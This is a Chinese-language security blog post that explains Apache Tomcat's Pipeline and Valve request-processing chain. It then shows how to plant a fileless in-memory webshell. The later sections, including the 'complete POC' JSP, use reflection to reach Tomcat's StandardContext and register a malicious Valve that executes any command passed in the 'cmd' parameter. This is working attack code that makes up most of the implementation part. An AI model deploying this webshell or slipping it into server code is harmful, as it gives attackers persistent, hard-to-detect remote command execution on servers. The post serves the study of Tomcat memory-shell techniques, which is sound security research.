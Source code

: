 ## Valve

### Tomcat管道机制

![image-20240710102242131](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240710102242131.png)

Tomcat中定义了两个接口Pipline和valve,valve可以作为pipline的子单位，用于处理传入请求和传出请求

Tomcat的管道机制是指在处理HTTP请求时，将一系列的Valve按顺序链接在一起形成一个处理管道。每个Valve负责在请求处理过程中执行特定的任务，例如认证、日志记录、安全性检查等。这样，请求就会在管道中依次经过每个Valve，每个Valve都可以对请求进行处理或者传递给下一个Valve

Tomcat每个层级的容器（Engine、Host、Context、Wrapper）都有相对应的实现Valve对象（StandardEngineValve、StandardHostValve、StandardContextValve、StandardWrapperValve），这些Valve同时维护一个Pipeline实例（StandardPipeline）。在每个层级容器中的管道中都有至少有一个Valve，称之为基础阀，其作用是连接当前容器的下一个容器

#### Valve接口

```java
package org.apache.catalina;

import java.io.IOException;
import javax.servlet.ServletException;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;

public interface Valve {
    // 获取下一个阀门
    public Valve getNext();
    // 设置下一个阀门
    public void setNext(Valve valve);
    // 后台执行逻辑，主要在类加载上下文中使用到
    public void backgroundProcess();
    // 执行业务逻辑
    public void invoke(Request request, Response response)
        throws IOException, ServletException;
    // 是否异步执行
    public boolean isAsyncSupported();
}
```

实现类是ValveBase抽象类

#### Pipline接口

![image-20240710104540060](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240710104540060.png)

get/set方法用于设置基础阀，通过提供add方法添加阀，remove方法删除阀。StandardPipeline是Tomcat中Pipeline的实现类

### 自定义Valve

通过继承ValveBase抽象类，只需要我们重写invoke方法，实现具体的业务逻辑即可

```java
package org.example.javaweb;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletException;
import java.io.IOException;


public class Valvetest extends ValveBase {

    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        System.out.println("valve test");
        //继续调用下一个valve
        getNext().invoke(request,response);
    }
}
```

### 内存马实现

StandardPipline#addvalve使我们可以向当前管道当中添加valve

![image-20240710142837176](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240710142837176.png)

消息传递到connector被解析之后，继续调用最终获取到了StandardPipline对象

具体流程：

1.获取StandardContext对象

2.通过1来获取StandardPipline对象

3.编写恶意valve并加载

+ 1-2

  ```jsp
  <%
      //获取ApplicationContextFaced类
      ServletContext servletContext = request.getSession().getServletContext();
      //反射获取StandardContext,首先获取到ApplicationContextFaced类context属性，为类ApplicationContext的一个对象
      Field appContext = servletContext.getClass().getDeclaredField("context");
      appContext.setAccessible(true);
      ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);
      //获取StandardContext
      Field stdContext = applicationContext.getClass().getDeclaredField("context");
      stdContext.setAccessible(true);
      StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
      //获取Pipline对象
      Pipeline pipeline =  standardContext.getPipeline();
  %>
  ```

+ 3

  ```jsp
  <%!
      class Shell_valve extends ValveBase{
          @Override
          public void invoke(Request request, Response response){
              String cmd = request.getParameter("cmd");
              try{
                  Runtime.getRuntime().exec(cmd);
              } catch (IOException e) {
                  throw new RuntimeException(e);
              }
          }
      }
  %>
  <%
      Shell_valve shellValve = new Shell_valve();
      pipeline.addValve(shellValve);
  %>
  ```

### 完整POC

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Pipeline" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.IOException" %><%--
  Created by IntelliJ IDEA.
  User: Administrator
  Date: 2024/7/10
  Time: 14:32
  To change this template use File | Settings | File Templates.
--%>


<%
    //获取ApplicationContextFaced类
    ServletContext servletContext = request.getSession().getServletContext();
    //反射获取StandardContext,首先获取到ApplicationContextFaced类context属性，为类ApplicationContext的一个对象
    Field appContext = servletContext.getClass().getDeclaredField("context");
    appContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);
    //获取StandardContext
    Field stdContext = applicationContext.getClass().getDeclaredField("context");
    stdContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
    //获取Pipline对象
    Pipeline pipeline =  standardContext.getPipeline();
%>
<%!
    class Shell_valve extends ValveBase{
        @Override
        public void invoke(Request request, Response response){
            String cmd = request.getParameter("cmd");
            try{
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
%>
<%
    Shell_valve shellValve = new Shell_valve();
    pipeline.addValve(shellValve);
%>

```

效果如图

![image-20240710144413346](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240710144413346.png)